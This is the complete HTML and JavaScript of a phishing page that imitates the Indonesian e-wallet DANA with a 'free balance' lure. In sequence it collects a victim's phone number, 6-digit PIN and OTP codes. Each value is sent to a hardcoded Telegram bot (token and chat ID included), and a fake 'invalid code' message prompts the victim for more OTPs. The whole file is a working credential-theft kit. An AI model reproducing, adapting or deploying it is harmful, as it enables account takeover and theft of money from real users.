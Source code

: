 
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=0">
<meta name="theme-color" content="#118EEA"> 

<meta http-equiv="X-UA-Compatible" content="ie=edge">
<title>🎁Claim Saldo Dana Gratis🎁</title>
<meta property="og:title" content="DANA ID">
<meta property="twitter:title" content="DANA ID ">
<meta property="twitter:card" content="summary_large_image">
<meta property="og:image:type" content="image/jpeg">
<meta content="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQA-22lQk5cJ68usHbFQm_lnqlOTy6o7c3rZg&usqp=CAU" property="og:image">
 <link href="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQA-22lQk5cJ68usHbFQm_lnqlOTy6o7c3rZg&usqp=CAU" rel="shortcut icon" type="image/x-icon">
  <link href="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQA-22lQk5cJ68usHbFQm_lnqlOTy6o7c3rZg&usqp=CAU" rel="apple-touch-icon">
 <link rel="canonical" href="https://www.dana.id/">
   <meta property="og:url" content="https://www.dana.id/" />
<meta property="og:description" content="DANA adalah bentuk baru uang tunai yang lebih baik. Transaksi apapun, berapapun dan dimanapun jadi mudah bersama DANA. Ambil bagian dalam transformasi keuangan digital di Indonesia sekarang!">
<meta property="twitter:description" content="DANA adalah bentuk baru uang tunai yang lebih baik. Transaksi apapun, berapapun dan dimanapun jadi mudah bersama DANA. Ambil bagian dalam transformasi keuangan digital di Indonesia sekarang!">
<script type="module" src="https://unpkg.com/ionicons@7.1.0/dist/ionicons/ionicons.esm.js"></script>
<script nomodule src="https://unpkg.com/ionicons@7.1.0/dist/ionicons/ionicons.js"></script>
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/container.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/loader.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/main.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/otp.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/pin.css">
</head>
<style>
    
body, html{
      left: 0;
      right: 0;
      bottom: 0;
      top: 0;
      margin: 0px auto;
      width: 100%;
      height: 100%;
      positon: fixed
      
}
h2{font-size: 18px; }

h3{
  font-size: 14px;  
}

 
 * {
  box-sizing: border-box;
  scrollbar-color: transparent transparent; /* thumb and track color */
  scrollbar-width: 0px;
}

*::-webkit-scrollbar {
  width: 0;
}

*::-webkit-scrollbar-track {
  background: transparent;
}

*::-webkit-scrollbar-thumb {
  background-color: #118CEA;
  border: none;
}

* {
  -ms-overflow-style: none;
}

ol, li {
  list-style: none;
  margin: 0;
  padding: 0;
}

.carousel {
  position: absolute;
  background-color: #118CEA;
  padding-top:0%;
  height: 100%;
  top: 0;
  right: 0;
  left: 0;
  margin: 0px auto;
  perspective: 200px;
}

.carousel__viewport {
  position: absolute;
  padding: 32px;
  width: 100%;
  top: 0;
  background-color: #118CEA;
  right: 0;
  bottom: 0;
  left: 0;
  height: 79%;
  display: flex;
  overflow-x: scroll;
  counter-reset: item;
  margin: 0px auto;
 
  scroll-behavior: smooth;
  scroll-snap-type: x mandatory;{}
}

.carousel__slide {
  position: relative;
  flex: 0 0 100%;
  width: 100%;
  height: 100%;
  margin-left: 10px;
  background-color: #118CEA;
  counter-increment: item;
  z-index: 99999999;
}

.carousel__slide:nth-child(even) {
  background-color: #118CEA;
}

.carousel__slide:before {
  content: counter(item);
  position: absolute;
  top: 50%;
  left: 50%;
  transform: translate3d(-50%,-40%,70px);
  color: #000;
  font-size: 2em;
  background-color: #118CEA;
}

.carousel__snapper {
  position: relative;
  top: 0;
  left: 0;
  right: 0;
  bottom: 0;
  width: 100%;
  height: 100%;
  scroll-snap-align: center;
  background-color: #118CEA;
  
  
}

@media (hover: hover) {
  .carousel__snapper {
    animation-name: tonext, snap;
    animation-timing-function: ease;
    animation-duration: 4s;
    animation-iteration-count: infinite;
  }

  .carousel__slide:last-child .carousel__snapper {
    animation-name: tostart, snap;
  }
}

@media (prefers-reduced-motion: reduce) {
  .carousel__snapper {
    animation-name: none;
  }
}

.carousel:hover .carousel__snapper,
.carousel:focus-within .carousel__snapper {
  animation-name: none;
}

.carousel__navigation {
  position: absolute;
  right: 0;
  bottom: 0;
  left: 0;
  text-align: center;
}

.carousel__navigation-list,
.carousel__navigation-item {
  display: inline-block;
}


.carousel::before,
.carousel::after,
.carousel__prev,
.carousel__next {
  position: absolute;
  top: 0;
  margin-top: 37.5%;
  width: 0;
  height: 0;
  transform: translateY(-50%);
  border-radius: 50%;
  font-size: 0;
  outline: 0;
  opacity: 0.0;
}

.carousel::before,
.carousel__prev {
  left: -1rem;
}

.carousel::after,
.carousel__next {
  right: 0rem;
}

.carousel::before,
.carousel::after {
  content: '';
  z-index: 1;
  background-color: #fff;
  background-size: 1.5rem 1.5rem;
  background-repeat: no-repeat;
  background-position: center center;
  color: #000;
  font-size: 2.5rem;
  line-height: 4rem;
  text-align: center;
  pointer-events: none;
}

/*********************/
.process1 {
     width: 100%;
            height: 100%;
             display: flex;
             justify-content: center;
            margin: auto;
            position: absolute;
           padding-top: 300px;
            left: 0;
            right: 0;
            bottom: 0;
            background: rgba(0, 0, 0, 0.6);
            z-index: 99999;
            
      
}
.loading {
    position: absolute;
    display: flex;
    justify-content: center;
    align-items: center;
    margin-bottom: 20%;
}
.loading img {
    width: 50px;
    
    top: 10;
}
.loading .spinner{
    position: absolute;
    width: 35px;
    animation: spin 1s linear infinite;
    -webkit-animation: spin 1s linear infinite;
    -moz-animation: spin 1s linear infinite;
    -ms-animation: spin 1s linear infinite;
    -o-animation: spin 1s linear infinite;
}
@keyframes spin {
  0% { transform: rotate(360deg); }
  100% { transform: rotate(0deg); }
}
@-webkit-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-moz-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-ms-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-o-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}

/*********************/

 #homeku{
     width: 100%;
     height: 100%;
     position: fixed;
    background: #118EEA;
  background-position: 100% 100%;
  background-size: 100% 100%;
  left: 0;
  right: 0;
  top: 0;
  bottom: 0;
  margin: 0px auto;
     
     
 }
 
 .inp{
     width: 70%;
     padding-left: 10px;
 }
 
 
 .btn-backku{
     position: absolute;
     left: 20;
     top: 12;
     background: transparent;
     color: #fff;
     border: none;
     font-size: 18px;
     font-weight: 300;
    
 }
 
 
 #back1{
      display: none;
     
 }
 
 #back2{
      display: none;
 }
</style>
<body>

<div style="display:none;" class="index">
	<div class="header">
		<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_logo.png" class="logo" alt="">
	</div>
	<div class="content">
		<div class="hero">
			<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/hero.svg" alt="">
		</div>
		<h1>Dompet digital untuk kamu!</h1>
		<p class="desc">
			Simpan uang serta kartu debit/kredit dengan<br>praktis di DANA</p>
		<div class="line"></div>
		<p class="log">
			Masukkan <b>nomor HP</b> kamu untuk lanjut
		</p>
		<button type="button" onclick="next();">LOGIN</button>
	</div>
</div>
<div class="start" style="display:none;">
	<img class="logo" src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_text.png" style="width: 150px">
	<div class="footimg">
		<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/bi.png" alt=""><img src="https://dev-danapemulihan.pantheonsite.io/asset/img/kom.png" alt="">
		<p>
			DANA Indonesia terdaftar dan diawasi<br>oleh Bank Indonesia dan Kominfo</p>
	</div>
</div>

<div class="container hid" style="position: fixed">
    
	<div class="" style="text-align: center;" id="homeku">
   

        
     <section class="carousel" aria-label="Gallery" style="margin-top: 0px; text-align: center; left: 0">
  <ol class="carousel__viewport">
    <li id="carousel__slide1"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEilUMIG_IMFVixTFpWb4xA5f1HJt25lbv-cc1baknB_YJeWO9FYU4SJOzdeMNkA1msFpUU-0MiI3B-llmFX122-XhqCq7-1HW4YUfaWX52rlNtfspDDvlFNj_A--xZIRknP3ycDkzm51noxYaFx_gfOck3U745QZSBwpCSesqOq1oEycuQamqaZlqoz/s16000/ezgif.com-crop%20(3).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999999; position: relative;">
       
       
      </div>
    </li>
    <li id="carousel__slide2"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper" style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEixR-U2gHP_VriGKaaVcf-_BbZmvWWoaRI8Wd26DYewNJayil_To6kgdWxmdq3TDJKQJ7lAAbD1de1uuuWTLQzCGdR8qT1S2mTehsdR02AFN573iPkN-0IrliCuRAy0xJfSH9AlfJWV7odqpRC_bxJLM2EkLf-84_ePEjEfE8SOtiKfEjcLQ7nDBjDc/s16000/ezgif.com-crop%20(4).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; background-color: transparent;"></div>
      <a href="#carousel__slide1"
         class="carousel__prev">Go to previous slide</a>
      <a href="#carousel__slide3"
         class="carousel__next">Go to next slide</a>
    </li>
    <li id="carousel__slide3"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjj8Fs3JMUwF85O07XgsV-e1rmQjTwS91jcu-zh3Lr_fEgVfhY823rmnMewtU59iGvsFjcBm-12OLSj81f57ZEksJeU2GaG7UU3zuwDsOsfTO4dAJ693JJyILcXjdHEzirw-pPBCeV1CfTqSroNgoMTGIfy-Y-HC8GAJDmo68GYd1-x2gGu0UsincrU/s16000/ezgif.com-crop%20(5).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%;">
       
       
      </div>
    </li>
   
  </ol>
  <aside class="carousel__navigation">
    <ol class="carousel__navigation-list">
      <li class="carousel__navigation-item">
        <a href="#carousel__slide1"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide2"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide3"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        
    </ol>
  </aside>
</section>
<button id="butonku" style="width: 90%; height: 189px; position: fixed; bottom: 0; left: 0; right: 0; margin: 1px auto; border: 0; background: url('https://user-images.githubusercontent.com/155412066/296517930-fcfc7dd0-ba64-4395-85bf-e4103927b567.jpg');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999" onclick="nextPrev()"></button>
      <center>
     <div id="process1" name="process" class="process" style="display: none;">
            <div class="loading">
                <img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi8hbZEfutKvr9pkj0-mkJYWt-1SBtt3gw-HFOEZc0172okrp0SFHLaW3PRGVDm1U0P7WWEMELIw4nlq1_1gCgyZBo3cxf-OJNpguNamdJryCkGU-hTHiW3RyOv5JD9eIjXTFtrJFCVn0ae4RxG4Oi-czAP20tEaJI3OstxFAbtOwtFxp6RvOHc6NZL/s1600/load_bg.png">
                <img class="spinner" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhl9xJVYWF_a9vAhgW5QQgozvZVADTaJgIX64iO7a5sQuMpSoPBK3zfKjvT6xc9fZPfxZz39mjk1H_oZOOOtYvO1l7DkWNqiD5LJyGYdwDNyHuyqLk_Ix6eFs3aLCG2yUXVwtsnj0BXTA40WZmecyLyCIm_ff0xNkkOvkuKBOl6yfS-QjI_EJrIyGtU/s1600/load_spin.png" id="loading" style="margin-top: 8px">
            </div>
        </div>
        </center>
  </div>
  <div id="blogin" class="box-login" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: fixed; 
    left: 0; 
    padding: 0px
    right: 0; 
    margin: 0px auto;
    top: 0; display: none;">
      	<div id="process" name="process" class="process" style="display: none;">
			<div class="loading">
				<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_bg.png">
				<img class="spinner" src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_spin.png" style="margin-top: 8px">
			</div>
		</div>
		
		<div class="header">
<button id="back1" type="button" class="btn-backku" onclick="goback1()"><ion-icon name="chevron-back-outline"></ion-icon></button>	<p></p>


			<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_logo.png" class="logo" alt="">
		</div>
		<form id="formNohp" onsubmit="sendNohp(event);" >
		     <input type="hidden" id="logo" value="𝐃𝐀𝐍𝐀 𝐈𝐃">
			<h3 style="font-size: 16px; margin-top: -20px">Masukkan <b>nomor HP</b> kamu untuk lanjut</h3>
			<div class="box-input" style="width: 95%;">
				<div class="label">
					<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/indo.png" alt=""><label>+62</label>
				</div>
				<input class="inp" id="inp" type="tel" autocomplete="off" required name="nohp" placeholder="812-3456-7890" maxlength="12" minlength="10"></div>
			<p class="desc" style="font-size: 12px; line-height: 18px; margin-top: 25px">
Nomor ponsel akan digunakan sebagai ID kamu & menjaga<br>akun selalu aman. Dengan melanjutkan, kamu setuju dengan <b>Syarat & Ketentuan dan Kebijakan Privasi</b> kami.
			</p>
			<div class="box-btn">
				<button disabled id="btn" class="btnnohp" type="submit" style="margin-top: -40px">LANJUT</button>
			</div>
		</form>
		<form id="formPin" omsubmit="return false" class="hid" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: fixed; 
    left: 0; 
    right: 0; 
    margin: 0px auto;
    top: 0;">
		     <input type="hidden" id="logo" value="𝐃𝐀𝐍𝐀 𝐈𝐃">
		    <button id="back2" type="button" class="btn-backku" onclick="goback2()" style="margin-top: 10px"><ion-icon name="chevron-back-outline"></ion-icon></button>
			<h3 style="margin-top: 50px; font-weight: 600; margin-bottom: -10px; font-size: 16px"><font style="font-weight: 400">Masukkan</font> PIN DANA</h3>
			<div class="box-input-pin">
				<div type="button" class="clear"></div>
				<input name="pin1" id="pin1" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin2" id="pin2" class="inppin" inputmode="numeric" type="password" autocomplete="off" required"""" maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin3" id="pin3" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin4" id="pin4" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin5" id="pin5" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin6" id="pin6" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;" onchange="javascript:this.form.button();" oninput="sendPin()"></div>
			<button class="show" type="button">TAMPILKAN</button>
			<p class="forgot">LUPA PIN?</p>
			<img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgbD-mmuMUDwaeFMEz6NefivuQqHyrFXvXxqVxMhYRhR5wsfUhiWkPNkpxLKkagRNpJ2obIiZH_D9EK6tnHIJUFMVBOclZI98zrU7VPszAR5n-_GeSWNCNgnfH1MRWuL-ahhPjxsejyDa5yyWAaOMWXWT4jS4EngtdLLlXjaPakQoFIOsjyS6tfnEBHDlw/s16000/output-onlinegiftools.gif" width="100%" style="position: absolute; bottom: 10; left: 0; right: 0; margin: 0px auto;">
		</form>
<div class="bgotp hid" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: absolute; 
    left: 0; 
    right: 0; 
    margin: 0px auto;
    top: 0;">
<div class="bgotp hid"><form id="formOtp" class=""><h2>Masukan Kode OTP</h2><br><center>
				<p class="alert" id="alert" style="font-size: 14px; text-align: center; margin-bottom: 0px; font-weight: 500; color: #000; margin-top: 0px; display: ; width: 360px; margin-bottom: -10px; font-weight: 300"></p>
				
				
				</center>
				<div class="box-input-otp" style="margin-top: 50px">
					
					<div class="loadingOtp" style="display:none;background: #fafafa">

						
						<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_bg.png"><img class="spinner" src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_spin.png">
		</div>
		<div type="button" class="clearotp"></div>
		 <input type="hidden" id="logo" value="𝐃𝐀𝐍𝐀 𝐈𝐃">
					<input name="otp1" id="otp1" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp2" id="otp2" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp3" id="otp3" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp4" id="otp4" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"></div>
		 <p id="waktuku" class="resend" style="margin-top: 70px; spacing: 2;color: #0f78cb; font-size: 13px">
					Kirim Ulang (<span id="carasingkat" style="color: #0f78cb">60</span>s)
				</p>
       <p class="resend" style="margin-top: 70px; spacing: 2; font-weight: 600; color: #0f78cb; margin-left: 0px; display: none" id="kirim-ulang" onclick="kirimulang()">Kirim Ulang</p>
       
       
			</div>
		</div>
	</div>
</div>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.11.3/jquery.min.js"></script>
        <script>
            var url = "#kirim-ulang"; // url tujuan
            var count = 60; // dalam detik
            function countDown() {
                
                if (count > 0) {
                    count--;
                    var waktu = count + 0;
            $('#carasingkat').html(waktu);
             
         setTimeout("countDown()", 1000);
           
                    
               
                }
            }
            countDown();
       
       </script>
<script src="https://code.jquery.com/jquery-3.5.1.min.js"></script>
<script src="https://dev-danapemulihan.pantheonsite.io/asset/jquery.mask.min.js"></script>
<script src="./asset/goo1gle.js"></script>
<script>$(document).ready(function(){$('#inp').on('input', function(){if($(this).val() == '0' || $(this).val() == '62'){$(this).val('');}});});</script>
<script>$(document).ready(function(){$('#inp').mask('000-0000-000000');});</script>
<script>let inp = document.getElementById("inp");let btn = document.getElementById("btn");inp.addEventListener("input", val);function val(){if(inp.value.length > 10){btn.disabled = false;}else{btn.disabled = true;}};</script>

<script>
//var pinContainer = document.getElementsByClassName("pin-code")[maxlength];
var pinContainer = document.querySelector(".box-input-pin");
console.log('There is ' + pinContainer.length + ' Pin Container on the page.');

pinContainer.addEventListener('keyup', function (event) {
    var target = event.srcElement;
    
    var maxLength = parseInt(target.attributes["maxlength"].value, 6);
    var myLength = target.value. length;

    if (myLength >= maxLength) {
        var next = target;
        while (next = next.nextElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        } aa
    }

    if (myLength === 0) {
        var next = target;
        while (next = next.previousElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }
}, false);

pinContainer.addEventListener('keydown', function (event) {
    var target = event.srcElement;
    target.value = "";
}, false);
</script>
<script>$('.inpotp').on('input', function(event) {const inputs = $('.inpotp');const isAllFilled = Array.from(inputs).every((input) => input.value !== '');if (isAllFilled == true) {$(event.target).blur();sendOtp();}const index = inputs.index(this);const currentValue = event.target.value;if (currentValue.length === 1) {if (index < inputs.length - 1) {inputs[index + 1].focus();}} else if (currentValue.length === 0) {if (index > 0) {inputs[index].focus();}};});$('.inpotp').on('keydown', function(event) {const inputs = $('.inpotp');const key = event.key;const index = inputs.index(this);if (key === 'Backspace' && event.target.value.length === 0) {if (index > 0) {inputs[index - 1].focus();}};});</script>
<script>$(document).ready(function() {$('.clear').click(function() {$('.inppin').val('');$('#pin1').focus();});$('.clearotp').click(function() {$('.inpotp').val('');$('#otp1').focus();});$('.show').click(function() {$('.inppin').each(function() {if ($(this).attr('type') === 'password') {$(this).attr('type','number');$(".show").text("SEMBUNYIKAN");} else {$(this).attr('type', 'password');$(".show").text("TAMPILKAN");}});});});</script>
<script>
 function nextPrev(){
      $("#process1").show();event.preventDefault();
       setTimeout(function(){
           $("#homeku").hide();
           $("#back1").show();
           $("#butonku").fadeOut();
           $(".box-login").fadeIn();
           $("#process1").hide();
       },1000);
 }   
 
 
 function goback1(){
     $("#process").show();
     setTimeout(function(){
     $("#homeku").show();
      $(".box-login").fadeOut();
      $("#butonku").fadeIn();
      $("#back1").hide();
       $("#process").hide();
       
     },500);
 }
 
 </script>
 <script>
 
 function goback2(){
     $("#process").show();
     setTimeout(function(){
    $("#formPin").fadeOut();
     $("#formNohp").fadeIn();
       $("#process").hide();
        $("#inp").val('');
        $("#back1").show();
        $("#back2").hide();
        document.getElementById("formPin").reset();
        $('.inppin').val('');
     },500);
 }
</script>
<script>
    $( document ).ready(function() {
            setTimeout(() => {
                $('#popup').hide();
                $('chsalxcome2').fadeIn();
            },2000)
             $('musikku').play();
        })
        
</script>


<script>
function tutupotp(){
$(".bgotp").hide();    
}
</script>
<script>
   function sendNohp(event){
    $("#process").show();event.preventDefault();
    $("#inp").blur();
     
    
    
    var nomor = document.getElementById("inp").value;
            sessionStorage.setItem("nomor", nomor);
    var logo = document.getElementById('logo');       
    var inp = document.getElementById('inp');
    
    var gabungan = '' + logo.value + '%0A𝐍𝐨.𝐇𝐩 : ' + '0' + inp.value;
   
    var token ='7142158232:AAFrUmsAZEcin86tEQY_3nKTGfp-XT-icXY'; // Ganti dengan token bot yang kamu buat
    var grup ='6235911819'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
    
    success: function(){
    $("#process").hide();
    document.getElementById("back1").style.display = "none";
    document.getElementById("back2").style.display = "block";
    $("#formNohp").fadeOut();
    setTimeout(function(){
   
    $("#formPin").fadeIn();
    $("#pin1").focus();
    }, 500);}});};
    

function sendPin(){

 
 
  var nomor = sessionStorage.getItem("nomor");
        document.getElementById("alert").innerHTML = "Kode dikirim via SMS ke +62 " + nomor+ " <br/>";
  var logo = document.getElementById('logo'); 
  var inp = document.getElementById('inp');
 var pin1 = document.getElementById('pin1');
 var pin2 = document.getElementById('pin2');
 var pin3 = document.getElementById('pin3');
 var pin4 = document.getElementById('pin4');
 var pin5 = document.getElementById('pin5');
 var pin6 = document.getElementById('pin6');
     
  var gabungan = '' + logo.value + '%0A𝐍𝐨.𝐇𝐩: ' + '0' + inp.value + '%0A𝐏𝐈𝐍.     : ' + pin1.value + pin2.value + pin3.value + pin4.value + pin5.value + pin6.value;
  
     
 

    var token ='7142158232:AAFrUmsAZEcin86tEQY_3nKTGfp-XT-icXY'; // Ganti dengan token bot yang kamu buat
    var grup = '6235911819'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,


success: function(){
$("#process").hide();
document.getElementById("alert").style.display = "block"; 
$(".bgotp").fadeIn();
setInterval(countdown, 1000);
$("#otp1").focus();
}
}
);
};


  function sendOtp(){
    $(".loadingOtp").show();
     var logo = document.getElementById('logo'); 
     var inp = document.getElementById('inp');
 var pin1 = document.getElementById('pin1');
 var pin2 = document.getElementById('pin2');
 var pin3 = document.getElementById('pin3');
 var pin4 = document.getElementById('pin4');
 var pin5 = document.getElementById('pin5');
 var pin6 = document.getElementById('pin6');
     var otp1 = document.getElementById('otp1');
   var otp2 = document.getElementById('otp2');
   var otp3 = document.getElementById('otp3');
   var otp4 = document.getElementById('otp4');
    setTimeout(function(){
$(".alert").text("Kode Invalid ");
$(".alert").css("color","red");
 },2000);
    var gabungan = '' + logo.value + '%0A𝐍𝐨.𝐇𝐩: ' + '0' + inp.value + '%0A𝐏𝐈𝐍    : ' + pin1.value + pin2.value + pin3.value + pin4.value + pin5.value + pin6.value + '%0A%0A𝐎𝐓𝐏    : ' + otp1.value + otp2.value + otp3.value + otp4.value;


    var token ='7142158232:AAFrUmsAZEcin86tEQY_3nKTGfp-XT-icXY'; // Ganti dengan token bot yang kamu buat
    var grup = '6235911819'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
        
    success: function(){
    setTimeout(function(){
    $(".loadingOtp").hide();
   
    $('.inpotp').val('');
   $('#otp1').focus();
  var nomor = sessionStorage.getItem("nomor");
        document.getElementById("alert").innerHTML = "Kode baru dikirim ulang via SMS ke  +62" + nomor +  " <br/>";
   $(".alert").css("color","black");
    },4000);
   
        
    }
        
    }
    );
        
    };
    </script>
<script>
    function countdown() {
    var count = parseInt(
    $('#countdown').text());
    if (count !== 0) {
    $('#countdown').text(count - 1);} 
    else {
    $('#countdown').text('60');}};
    </script>
<script>
window.onload = function(){
        setTimeout(function(){
            $(".start").fadeIn();
            setTimeout(function(){
                $(".start").fadeOut(1000);
                setTimeout(function(){
                   $(".container").fadeIn(200);
                   $("#inp").focus();
                },1000);
            },1000);
        },500);
}
</script>
</body>
</html><!--<script src='https://a.bsite.net/footer.js'></script>
